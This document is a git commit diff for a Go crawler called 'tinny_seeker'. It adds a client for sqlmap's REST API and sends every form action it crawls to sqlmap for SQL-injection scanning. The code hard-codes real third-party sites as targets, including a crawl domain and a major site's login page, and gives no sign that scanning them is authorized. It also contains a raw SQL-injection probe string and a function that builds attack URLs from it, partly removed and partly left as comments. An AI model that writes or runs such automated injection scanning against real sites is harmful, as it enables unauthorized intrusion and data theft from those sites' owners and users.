

sqlmap added

diff --git a/seeker.go b/seeker.go
@@ -1,8 +1,8 @@
 package main
 
 import (
+	"bytes"
 	"fmt"
-	"net/http"
 	"strings"
 
 	"github.com/PuerkitoBio/goquery"
@@ -12,6 +12,7 @@ import (
 	"github.com/hu17889/go_spider/core/scheduler"
 	"github.com/hu17889/go_spider/core/spider"
 	"github.com/mkideal/cli"
+	"github.com/scbizu/tinny_seeker/scanner"
 )
 
 type argT struct {
@@ -24,22 +25,22 @@ type argT struct {
 //crawl layer
 var layer int
 var urls []string
-var domain = "dirtytao.com"
-var targetURL = "http://www.dirtytao.com/"
+var domain = "nxzx.net"
+var targetURL = "http://www.nxzx.net/"
 
 //  seeker  --la 	 default is OFF
 var localFlag bool
 
-//Processor
+//SeekerProcessor Construction
 type SeekerProcessor struct {
 }
 
-//Construct function
+//NewSeeker returns a Processor
 func NewSeeker() *SeekerProcessor {
 	return &SeekerProcessor{}
 }
 
-//Process
+//Process is used to analyse the whole HTML
 func (object *SeekerProcessor) Process(p *page.Page) {
 
 	if !p.IsSucc() {
@@ -50,76 +51,140 @@ func (object *SeekerProcessor) Process(p *page.Page) {
 	//CASE:<a href="" />
 	query.Find("a").Each(func(i int, s *goquery.Selection) {
 		value, _ := s.Attr("href")
-		//	name := s.Text()
+		// name := s.Text()
 		urls = append(urls, value)
-		// req := p.GetRequest()
-		//p.AddField(name, value)
 
-		// p.AddField(value, req.GetMethod())
+		// p.AddField(name, value)
+
 	})
 	//CASE:<form action=""></form>
 	query.Find("form").Each(func(i int, s *goquery.Selection) {
 
 		value, _ := s.Attr("action")
-		value = AutofillUrl(targetURL, value)
+		value = AutofillURL(targetURL, value)
 
-		method, _ := s.Attr("method")
-		if method == "get" {
-			//	name:=s.Children().Children().Attr("name")
-			resp, err := http.Get(value + "?s=4%'and 1=2 and '%' ='")
-			resp1, err := http.Get(value + "?s=4%'and 1=1 and '%' ='")
-			if err != nil {
-				color.Red("%s", err)
-			}
-			if resp.StatusCode == 200 && resp1.StatusCode == 200 {
-				p.AddField(value, "searchbar SQL injection test pass!")
-			} else {
-				p.AddField(value, resp.Status+"\t"+resp1.Status)
-			}
+		//TODO:sqlmap insert here
+
+		taskerid, err := scanner.NewTasker()
+		if err != nil {
+			color.Red("%s", err)
 		}
+
+		isStart, err := scanner.StartTasker(taskerid, value)
+		if err != nil {
+			color.Red("%s", err)
+		}
+
+		if isStart {
+			color.Green("一个新的Tasker开启了....")
+		}
+
+		Res, err := scanner.GetResultFromTasker(taskerid)
+		if err != nil {
+			color.Red("%s", err)
+		}
+		if len(Res) > 0 {
+			for _, v := range Res {
+				color.Green(v + " ")
+			}
+		} else {
+			color.Cyan("并没有什么卵的漏洞....")
+		}
+
+		// method, _ := s.Attr("method")
+		// // NOTE: SQL injection here
+		// if method == "get" {
+		// 	params := GetChildsWithTag("input", s)
+		// 	AttackParams := "4%'and 1=2 and '%' ='"
+		// 	ATKURL := GenerateATKURL(AttackParams, params)
+		// 	color.Green(value + ATKURL)
+		// 	//REQUEST
+		// 	resp, err := http.Get(value + ATKURL)
+		// 	resp1, err := http.Get(value + ATKURL)
+		// 	if err != nil {
+		// 		color.Red("%s", err)
+		// 	}
+		// 	if resp.StatusCode == 200 && resp1.StatusCode == 200 {
+		// 		p.AddField(value+ATKURL, ": searchbar SQL injection test pass!")
+		// 	} else {
+		// 		p.AddField(value+ATKURL, resp.Status+"\t"+resp1.Status)
+		// 	}
+		// }
+		//add form object to scheduler
+		urls = append(urls, value)
 	})
 
 	//过滤URLS
-	var filteredUrl []string
+	var filteredURL []string
 	//add urls to scheduler
 
 	if localFlag {
 		//only crawl the local domain
 		for i := 0; i < len(urls); i++ {
-			urls[i] = AutofillUrl(targetURL, urls[i])
+			urls[i] = AutofillURL(targetURL, urls[i])
 			if strings.Contains(urls[i], domain) && !strings.Contains(urls[i], "javascript") {
-				filteredUrl = append(filteredUrl, urls[i])
+				filteredURL = append(filteredURL, urls[i])
 				// color.Red("%s", urls[i])
 			}
 		}
 		//	p.AddTargetRequests(filteredUrl, "html")
 	} else {
 		for i := 0; i < len(urls); i++ {
-			urls[i] = AutofillUrl(targetURL, urls[i])
+			urls[i] = AutofillURL(targetURL, urls[i])
 			if !strings.Contains(urls[i], "javascript") {
-				filteredUrl = append(filteredUrl, urls[i])
+				filteredURL = append(filteredURL, urls[i])
 			}
 		}
 		//	p.AddTargetRequests(filteredUrl, "html")
 	}
 
 	if layer-1 > 0 {
-		p.AddTargetRequests(filteredUrl, "html")
+		p.AddTargetRequests(filteredURL, "html")
 		layer--
 	}
 
 }
 
+//Finish  will be called in the end
 func (object *SeekerProcessor) Finish() {
 	color.Yellow("store data to the db...")
 }
 
-//design for the need that change relative path to absolute path
-func AutofillUrl(targetUrl string, originUrl string) string {
-	if !strings.Contains(originUrl, "http") {
-		originUrl = targetUrl + originUrl
+//AutofillURL is designed for the need that change relative path to absolute path
+func AutofillURL(targetURL string, originURL string) string {
+	if !strings.Contains(originURL, "http") {
+		originURL = targetURL + originURL
 	}
-	return originUrl
+	return originURL
+}
+
+//GetChildsWithTag Get Children tag with specific name
+func GetChildsWithTag(tagname string, s *goquery.Selection) []string {
+	var tags []string
+	//Children numbers
+
+	s.Find(tagname).Each(func(i int, child *goquery.Selection) {
+		len := child.Children().Length()
+		tag, _ := child.Attr("name")
+		tags = append(tags, tag)
+		if len != 0 {
+			GetChildsWithTag(tagname, child.Children())
+		}
+	})
+
+	return tags
+}
+
+//GenerateATKURL generate the  ATK request URL(temp)
+//TODO:need FIX
+func GenerateATKURL(ATKdata string, urlparams []string) string {
+	var buf bytes.Buffer
+	buf.WriteString("?" + urlparams[0] + "=" + ATKdata)
+	for i := 1; i < len(urlparams); i++ {
+		buf.WriteString("&")
+		buf.WriteString(urlparams[i] + "=" + ATKdata)
+	}
+	return buf.String()
 }
 
 func main() {
@@ -136,15 +201,14 @@ func main() {
 		localFlag = argv.Zone
 
 		// layer = argv.Layer
-		pageItems := sp.SetThreadnum(2).SetScheduler(scheduler.NewQueueScheduler(true)).SetSleepTime("rand", 800, 1500).GetByRequest(req)
-		//	sp.SetThreadnum(4).SetScheduler(scheduler.NewQueueScheduler(true)).AddPipeline(pipeline.NewPipelineConsole()).Run()
-		// color.Red("%d", layer)
+		pageItems := sp.SetThreadnum(2).SetScheduler(scheduler.NewQueueScheduler(true)).SetSleepTime("rand", 1500, 3500).GetByRequest(req)
+		// sp.SetThreadnum(4).SetScheduler(scheduler.NewQueueScheduler(true)).AddPipeline(pipeline.NewPipelineConsole()).Run()
+		//	color.Red("%d", layer)
 
 		fmt.Println("-----------------------------------Result---------------------------------")
 		for name, value := range pageItems.GetAll() {
 			color.Green(name + ":" + value + "\n")
 		}
-
 		return nil
 	}, "cli for the tinny_seeker")
 }

diff --git a/scanner/scanner.go b/scanner/scanner.go
@@ -1,0 +1,157 @@
+package scanner
+
+import (
+	"encoding/json"
+	"io/ioutil"
+	"net/http"
+	"strings"
+)
+
+//Tasker was tasker list of sqlmap
+type Tasker struct {
+	Status  string `json:"status"`
+	Taskid  string `json:"taskid"`
+	URL     string `json:"url"`
+	Success bool   `json:"success"`
+	// Returncode int      `json:"returncode"`
+	Data  []string `json:"data"`
+	Error []string `json:"error"`
+}
+
+//LocalServer set the server
+const LocalServer = "http://127.0.0.1:8775/"
+
+const scanURL = "https://www.douban.com/accounts/login"
+
+var c *http.Client
+
+//SetTaskID set the Tasker's Taskerid
+func (Task *Tasker) SetTaskID(tid string) {
+	Task.Taskid = tid
+}
+
+//NewTasker call a new Tasker  if success it will return a taskid ,otherwise, an error.
+func NewTasker() (string, error) {
+	var jstring Tasker
+	c = &http.Client{}
+	req, err := http.NewRequest("GET", LocalServer+"task/new", nil)
+	if err != nil {
+		return "", err
+	}
+	resp, err := c.Do(req)
+	if err != nil {
+		return "", err
+	}
+	defer resp.Body.Close()
+	body, err := ioutil.ReadAll(resp.Body)
+	if err != nil {
+		return "", err
+	}
+	err = json.Unmarshal(body, &jstring)
+	if err != nil {
+		return "", err
+	}
+
+	return jstring.Taskid, nil
+}
+
+//DeleteTasker delete a task with TID
+func DeleteTasker(taskerid string) (bool, error) {
+	var jstring map[string]bool
+	c = &http.Client{}
+	req, err := http.NewRequest("GET", LocalServer+"task/"+taskerid+"/delete", nil)
+	if err != nil {
+		return false, err
+	}
+	resp, err := c.Do(req)
+	if err != nil {
+		return false, err
+	}
+	defer resp.Body.Close()
+	body, err := ioutil.ReadAll(resp.Body)
+	if err != nil {
+		return false, err
+	}
+	err = json.Unmarshal(body, &jstring)
+	if err != nil {
+		return false, err
+	}
+
+	return jstring["success"], nil
+}
+
+//StartTasker config the sqlmap process
+func StartTasker(taskerid string, scanURL string) (bool, error) {
+	var result Tasker
+	data := map[string]string{
+		"url": scanURL,
+	}
+	datajson, err := json.Marshal(data)
+	if err != nil {
+		return false, nil
+	}
+	req, err := http.NewRequest("POST", LocalServer+"scan/"+taskerid+"/start", strings.NewReader(string(datajson)))
+	req.Header.Set("Content-Type", "application/json")
+	if err != nil {
+		return false, nil
+	}
+	resp, err := c.Do(req)
+	if err != nil {
+		return false, nil
+	}
+	defer resp.Body.Close()
+	body, err := ioutil.ReadAll(resp.Body)
+	if err != nil {
+		return false, nil
+	}
+	err = json.Unmarshal(body, &result)
+	if err != nil {
+		return false, err
+	}
+
+	return result.Success, nil
+}
+
+//GetTaskerStatus hook the current status of running tasker
+func GetTaskerStatus(taskerid string) (string, error) {
+	// var result Tasker
+	req, err := http.NewRequest("GET", LocalServer+"scan/"+taskerid+"/status", nil)
+	if err != nil {
+		return "", err
+	}
+	resp, err := c.Do(req)
+	if err != nil {
+		return "", err
+	}
+	defer resp.Body.Close()
+	body, err := ioutil.ReadAll(resp.Body)
+	if err != nil {
+		return "", err
+	}
+
+	return string(body), nil
+}
+
+//GetResultFromTasker   finally fetch the result
+func GetResultFromTasker(taskerid string) ([]string, error) {
+	var result Tasker
+	req, err := http.NewRequest("GET", LocalServer+"scan/"+taskerid+"/data", nil)
+	if err != nil {
+		return nil, err
+	}
+	resp, err := c.Do(req)
+	if err != nil {
+		return nil, err
+	}
+	defer resp.Body.Close()
+	body, err := ioutil.ReadAll(resp.Body)
+	if err != nil {
+		return nil, err
+	}
+	err = json.Unmarshal(body, &result)
+	if err != nil {
+		return nil, err
+	}
+
+	return result.Data, nil
+}
